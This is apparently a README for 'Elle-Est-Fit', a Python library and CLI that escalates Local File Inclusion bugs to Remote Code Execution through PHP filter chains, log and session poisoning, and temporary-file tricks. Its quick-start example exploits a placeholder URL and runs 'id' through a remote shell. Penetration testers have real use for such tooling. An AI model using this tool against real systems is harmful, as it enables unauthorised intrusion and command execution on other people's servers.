 # Elle-Est-Fit: LFI to RCE Framework

A Local File Inclusion to Remote Code Execution framework that works both as a Python library and a command-line tool.


## Features

- 🔍 Exploit LFI vulnerabilities to achieve RCE
- - PHP Filter Chain
- - Log file poisoning
- - PHP Session poisoning
- - Nginx/Apache Temporary Files
- - ...
- 🛠️ Multiple exploitation techniques
- 🧩 Modular architecture for easy extension
- 🚀 Easy to use API

## Installation

```bash
pip install elle-est-fit
```

# Quick Start

```python
from elle_est_fit import LFI

lfi = LFI(target="http://vulnerable.com/?page={}")
if lfi.exploit():
    output = lfi.shell("id")
    print(output)
```